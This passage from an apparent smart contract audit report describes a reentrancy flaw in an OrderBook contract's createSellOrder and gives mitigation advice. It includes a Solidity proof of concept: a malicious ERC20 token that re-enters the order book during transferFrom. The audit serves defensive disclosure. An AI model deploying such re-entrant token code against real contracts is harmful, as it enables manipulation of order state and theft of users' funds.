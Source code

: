 Likelihood:

A malicious token contract must be whitelisted via setAllowedSellToken()
Owner controls token whitelist, reducing immediate risk
However, owner could unknowingly whitelist a malicious token

Impact:

Malicious token contracts can re-enter during safeTransferFrom
Could potentially manipulate order state or create multiple orders with same tokens
May lead to inconsistent contract state or fund loss

### Proof of Concept

```solidity
// Malicious ERC20 token contract
contract MaliciousToken {
    OrderBook orderBook;
    address attacker;
    bool attacking;
    
    constructor(address _orderBook) {
        orderBook = OrderBook(_orderBook);
        attacker = msg.sender;
    }
    
    function transferFrom(address from, address to, uint256 amount) external returns (bool) {
        // Re-enter createSellOrder during token transfer
        if (!attacking && to == address(orderBook)) {
            attacking = true;
            // Re-entrant call before original order is stored
            orderBook.createSellOrder(address(this), amount, 1000, 86400);
        }
        return true;
    }
    
    // Other ERC20 functions...
}

// Attack scenario:
// 1. Owner unknowingly whitelists MaliciousToken
// 2. Attacker calls createSellOrder() with MaliciousToken
// 3. During safeTransferFrom, malicious contract re-enters
// 4. Multiple orders created or state manipulated before original call completes
```
### Recommended Mitigation

Follow the Checks-Effects-Interactions pattern by moving all state updates before external calls.

Alternatively, add a reentrancy guard.


## [H-2] CEI Pattern Violation in amendSellOrder() Enables Reentrancy Attacks
